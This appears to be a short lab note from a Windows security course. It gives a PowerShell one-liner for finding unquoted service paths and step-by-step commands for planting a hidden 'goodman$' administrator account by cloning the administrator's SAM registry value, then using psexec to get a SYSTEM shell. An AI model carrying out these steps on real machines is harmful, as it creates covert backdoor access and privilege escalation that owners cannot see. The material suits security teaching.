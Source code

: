 # Lab2
---
## Lab 2-1 find the unquoated service
- get-wmiobject win32_service | ?{$_.pathname -match"^`"{0,1}(C|c):*\\.*\s+.*\\.*"} | select Name, Pathname, State, ProcessID
- get-acl

## Lab2-2 Hidden account
1. net user goodman$ \<passwd\> /add
1. Export regedit 
    1. sam\domains\account\users\names\goodman$ as name.reg
    1. sam\domains\account\users\\<admimistratorID\> as source.reg
    1. sam\domains\account\users\\<goodman$ID> as target.reg
1. Delete goodman$ account
1. Copy F=hex value from source.reg to target.reg
1. Import name and target reg
    1. regedit /s \<xxx\>.reg
1. Us PSexec to get system cmd
    1. psexec -u hidden$ -p \<passwd\> cmd
    1. psexec -i-s cmd
